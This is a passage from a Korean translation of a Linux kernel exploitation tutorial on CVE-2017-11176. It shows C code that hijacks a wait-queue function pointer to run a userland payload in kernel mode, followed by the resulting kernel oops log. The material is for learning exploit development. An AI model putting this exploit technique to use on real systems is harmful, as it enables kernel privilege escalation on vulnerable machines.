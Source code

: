 보이는 것처럼 *panic()*  함수는 *\_\_wake\_up\_common()*  의 *curr->func()* 함수 포인터로부터 호출된다.

**노트**: *\_\_wake\_up()* 에 대한 두 번째 호출은 발생하지 않는다. 여기선 *panic()*  함수의 인자가 약간 손상되어서 그런 것이다.

### Returning to userland code (first try)

이제 유저 영역으로 돌아오는 걸 시도해보자(혹자는 이를 *ret-to-user* 라 부른다).

누군가 물을 것이다. 왜 유저 영역 코드로 돌아와야 하는가? 커널에 백도어가 설치된 게(backdoored) 아니라면, 직접적인 권한 상승과 커널 보수 등을 해주는 **단 하나의(single) 함수**도 찾아낼 수 없다. 우린 우리의 선택대로 임의적인 코드를 실행하고 싶다. arbitrary call primitive를 가지고 있으므로, 익스플로잇에 페이로드를 작성하고, 작성한 페이로드로 점프해보자.

익스플로잇을 수정하여 (테스트를 위해) *panic()*  함수를 호출하는 *payload()*  함수를 만들자. *func*  함수 포인터 값을 바꿔야 한다는 것을 명심하자.

```c
static int payload(void);

static int init_realloc_data(void)
{
  // ... cut ...

  // initialise the userland wait queue element
  BUILD_BUG_ON(offsetof(struct wait_queue, func) != WQ_ELMT_FUNC_OFFSET);
  BUILD_BUG_ON(offsetof(struct wait_queue, task_list) != WQ_ELMT_TASK_LIST_OFFSET);
  g_uland_wq_elt.flags = WQ_FLAG_EXCLUSIVE; // set to exit after the first arbitrary call
  g_uland_wq_elt.private = NULL; // unused
  g_uland_wq_elt.func = (wait_queue_func_t) &payload; // <----- userland addr instead of PANIC_ADDR
  g_uland_wq_elt.task_list.next = (struct list_head*)&g_fake_next_elt;
  g_uland_wq_elt.task_list.prev = (struct list_head*)&g_fake_next_elt;
  printf("[+] g_uland_wq_elt addr = %p\n", &g_uland_wq_elt);
  printf("[+] g_uland_wq_elt.func = %p\n", g_uland_wq_elt.func);

  return 0;
}

typedef void (*panic)(const char *fmt, ...);

// The following code is executed in Kernel Mode.
static int payload(void)
{
  ((panic)(PANIC_ADDR))("");  // called from kernel land

  // need to be different than zero to exit list_for_each_entry_safe() loop
  return 555; 
}
```

이전의 표는 다음과 같이 바뀐다:

![Arbitrary call painc() from userland](https://blog.lexfo.fr/images/cve-2017-11176-linux/arbitrary_call_1.png)

실행하면 이런 결과를 보게 된다:

```plaintext
[  124.962677] BUG: unable to handle kernel paging request at 00000000004014c4
[  124.962923] IP: [<00000000004014c4>] 0x4014c4
[  124.963039] PGD 1e3df067 PUD 1abb6067 PMD 1b1e6067 PTE 111e3025
[  124.963261] Oops: 0011 [#1] SMP 
...
[  124.966733] RIP: 0010:[<00000000004014c4>]  [<00000000004014c4>] 0x4014c4
[  124.966810] RSP: 0018:ffff88001b533e60  EFLAGS: 00010012
[  124.966851] RAX: 0000000000602880 RBX: 0000000000602898 RCX: 0000000000000000
[  124.966900] RDX: 0000000000000000 RSI: 0000000000000001 RDI: 0000000000602880
[  124.966948] RBP: ffff88001b533ea8 R08: 0000000000000000 R09: 00007f919c472700
[  124.966995] R10: 00007ffd8d9393f0 R11: 0000000000000202 R12: 0000000000000001
[  124.967043] R13: ffff88001bdf2ab8 R14: 0000000000000000 R15: 0000000000000000
[  124.967090] FS:  00007f919cc3c700(0000) GS:ffff880003200000(0000) knlGS:0000000000000000
```